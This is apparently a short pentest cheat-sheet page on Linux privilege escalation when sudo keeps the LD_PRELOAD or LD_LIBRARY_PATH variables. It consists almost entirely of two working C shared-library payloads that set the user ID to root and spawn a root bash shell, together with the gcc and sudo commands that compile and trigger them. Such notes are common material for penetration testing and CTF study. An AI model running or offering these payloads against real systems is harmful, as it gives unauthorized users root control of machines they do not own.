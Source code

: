 #### LD_PRELOAD
**env_keep+=LD_PRELOAD**
[Hack-Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

If sudo -l shows any root function and the env_keep+=LD+PRELOAD we can compile a shared library to bee called for priv-esc

`/tmp/pe.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

*compile & run*
```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles

sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

**LD_LIBRARY_PATH**
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```
